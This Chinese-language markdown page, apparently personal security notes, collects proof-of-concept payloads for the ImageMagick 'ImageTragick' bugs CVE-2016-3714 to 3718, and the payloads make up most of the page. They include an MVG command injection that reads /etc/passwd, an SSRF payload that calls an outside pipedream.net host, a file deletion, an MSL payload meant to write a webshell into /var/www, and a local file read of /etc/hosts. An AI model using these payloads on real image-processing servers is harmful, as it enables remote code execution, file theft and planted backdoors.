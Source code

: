 # 魔图漏洞

## CVE-2016-3714

（The (1) EPHEMERAL, (2) HTTPS, (3) MVG, (4) MSL, (5) TEXT, (6) SHOW, (7) WIN, and (8) PLT coders in ImageMagick before 6.9.3-10 and 7.x before 7.0.1-1 allow remote attackers to execute arbitrary code via shell metacharacters in a crafted image, aka "ImageTragick."）

### 参考

- https://github.com/ImageTragick/PoCs
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/vulhub/vulhub/blob/master/imagemagick/imagetragick/README.zh-cn.md

### 利用

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`cat /etc/passwd > /tmp/success`'
pop graphic-context
```

## CVE-2016-3718

### 利用

poc.jpg

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://enav06y2ix9ic.x.pipedream.net)'
pop graphic-context
```

## CVE-2016-3715

### 利用

poc.jpg

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'ephemeral:/tmp/success'
popgraphic-context
```

下面这2个，3716没有复现成功，3717没有回显，就没有复现了

## CVE-2016-3716

### 利用

利用ImageMagick支持的msl协议，来进行文件的读取和写入。利用这个漏洞，可以将任意文件写为任意文件，比如将图片写为一个.php后缀的webshell。特别说明的是，msl协议是读取一个msl格式的xml文件，并根据其内容执行一些操作：

file_move.mvg
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'msl:/tmp/msl.txt'
popgraphic-context
```
/tmp/msl.txt
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="/tmp/image.gif" />
<write filename="/var/www/shell.php" />
</image>
```

## CVE-2016-3717

可以造成本地文件读取漏洞

### 利用

poc.jpg

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/hosts'
pop graphic-context
```